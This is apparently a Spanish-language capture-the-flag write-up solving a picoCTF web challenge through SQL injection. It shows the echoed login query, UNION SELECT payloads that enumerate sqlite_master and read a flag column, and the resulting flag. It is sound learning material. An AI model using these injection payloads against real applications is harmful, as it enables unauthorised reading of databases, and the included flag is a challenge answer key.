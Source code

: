 #notas_hacking #web
# Reto
## Descripción
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:56397/).
## Solución
al ingresar como username: admin y password: admin nos regresa como se construye la consulta
```sql
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```
pasamos el `login` con `sql injection` y nos aparece un buscador de ciertos datos
con `'union select sql,2,3 from sqlite_master;` dentro del campo de búsqueda nos arroja la estructura de las tablas, ahora solo buscamos en todas, especialmente un a que contiene un campo llamado `flag` 
```sql
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```
en el campo de búsqueda -> `' union select id,flag,3 from more_table;`
y nos devuelve:
`picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}`
## Notas
## Referencias
[PayloadsAllTheThings/SQL Injection/SQLite Injection.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)